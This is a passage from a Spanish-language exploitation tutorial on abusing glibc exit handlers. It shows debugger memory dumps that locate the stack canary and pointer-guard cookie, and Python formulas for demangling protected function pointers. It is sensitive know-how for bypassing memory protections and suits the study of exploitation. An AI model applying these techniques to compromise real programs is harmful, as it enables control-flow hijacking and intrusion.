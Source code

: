 ```c
  /* Must be kept even if it is no longer used by glibc since programs,
     like AddressSanitizer, depend on the size of tcbhead_t.  */
  __128bits __glibc_unused2[8][4] __attribute__ ((aligned (32)));

  void *__padding[8];
} tcbhead_t;
```

Ahora veamos la memoria que apunta `fs`

```
      0x7ffff7fa4740|+0x0000|+000: 0x00007ffff7fa4740  ->  [loop detected]
      0x7ffff7fa4748|+0x0008|+001: 0x00007ffff7fa5160  ->  0x0000000000000001
      0x7ffff7fa4750|+0x0010|+002: 0x00007ffff7fa4740  ->  [loop detected]
      0x7ffff7fa4758|+0x0018|+003: 0x0000000000000000
      0x7ffff7fa4760|+0x0020|+004: 0x0000000000000000
      0x7ffff7fa4768|+0x0028|+005: 0x38c19d513064ee00  <-  canary
      0x7ffff7fa4770|+0x0030|+006: 0x67d652452ad05ec9  <-  PTR_MANGLE cookie
```

Así que, la _key_ para el cifrado y decifrado de los punteros es una _cookie_,llamado `__pointer_chk_guard_local` o `pointer_guard`, y se guarda en `fs:[0x30]`. Según lo que hemos visto, podemos concluir las siguientes fórmulas de `PTR_MANGLE` y `PTR_DEMANGLE`.
fu
```python
ptr_demangle = lambda ptr_enc : ror(ptr_enc, 0x11) ^ cookie 
ptr_mangle = lambda ptr: rol(ptr ^ cookie, 0x11)
```

Afortunadamente tenemos una entrada en `exit_function_list.fns[0]` al parecer, por defecto. Volvamos a verlo

```
gef> x/10xg __exit_funcs
0x7ffff7e1bf00 <initial>:	    0x0000000000000000	0x0000000000000001
0x7ffff7e1bf10 <initial+16>:	0x0000000000000004	0x5b75ba599d12cfac
0x7ffff7e1bf20 <initial+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7e1bf30 <initial+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7e1bf40 <initial+64>:	0x0000000000000000	0x0000000000000000
gef> p ((struct exit_function*)0x7ffff7e1bf10)->func.cxa
$1 = {
  fn = 0x5b75ba599d12cfac,
  arg = 0x0,
  dso_handle = 0x0
}
gef> p ((struct exit_function*)0x7ffff7e1bf10)->flavor 
$2 = 0x4
```

Entonces usemos la _cookie_ y el valor de `exit_function_list.fns[0].func.cxa.fn` que es `0x5b75ba599d12cfac` para descifrar y obtener el puntero.

```
In [4]: cookie = 0x67d652452ad05ec9
In [5]: hex(ptr_demangle(0x5b75ba599d12cfac))
Out[5]: '0x7ffff7fc9040'
```


[1]: https://googleprojectzero.blogspot.com/2014/08/the-poisoned-nul-byte-2014-edition.html
[2]: https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html
[3]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.c#L135
[4]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.c#L35
[5]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.h
[6]: https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/unix/sysv/linux/x86_64/pointer_guard.h#L25
[7]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/cxa_atexit.c#L52
[8]: https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/unix/sysv/linux/x86_64/pointer_guard.h#L29
[9]: https://elixir.bootlin.com/glibc/glibc-2.26/source/sysdeps/x86_64/nptl/tls.h#L70
[10]: https://elixir.bootlin.com/glibc/glibc-2.39/source/nptl/pthread_create.c#L63
[11]: https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/generic/ldsodefs.h#L303